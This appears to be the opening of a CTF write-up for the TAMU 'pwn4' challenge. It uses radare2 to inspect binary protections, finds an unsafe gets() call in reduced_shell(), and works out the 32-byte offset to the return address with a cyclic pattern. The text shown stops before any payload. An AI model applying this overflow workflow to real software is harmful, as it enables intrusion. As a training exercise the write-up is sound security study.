# pwn4 write-up (? p)

remote server found at `nc pwn.ctf.tamu.edu 4324`

----

The binary use NX security mechanism: 

````python
[0x08048490]> i~arch,canary,nx,pic,relro
arch     x86
canary   false
nx       true
pic      false
relro    partial
````

Function sym.main() has a function call to sym.reduced_shell().

````python
[0x080485ef]> pdf
            ;-- eip:
┌ (fcn) sym.reduced_shell 404
│   sym.reduced_shell ();
│           ; var int INPUT @ ebp-0x1c
│           ; CALL XREF from 0x080487a8 (main + 37)
...
│           0x08048632      83c410         esp += 0x10
│           0x08048635      83ec0c         esp -= 0xc
│           0x08048638      8d45e4         eax = [INPUT]
│           0x0804863b      50             push eax                    ; char *s
│           0x0804863c      e8cffdffff     sym.imp.gets ()             ; char*gets(char *s)
````

Function sym.reduced_shell() contains a gets call, with local_1ch variable, renamed to INPUT.

Created a pattern using `ragg2 -P 300 -r > stdin` and reopen debugger.

````python
[0xf77b7030]> dc
I am a reduced online shell
Your options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
Input> Unkown Command

child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41414c41 code=1 ret=0
````

````python
[0x41414c41]> wopO 0x41414c41
32
````

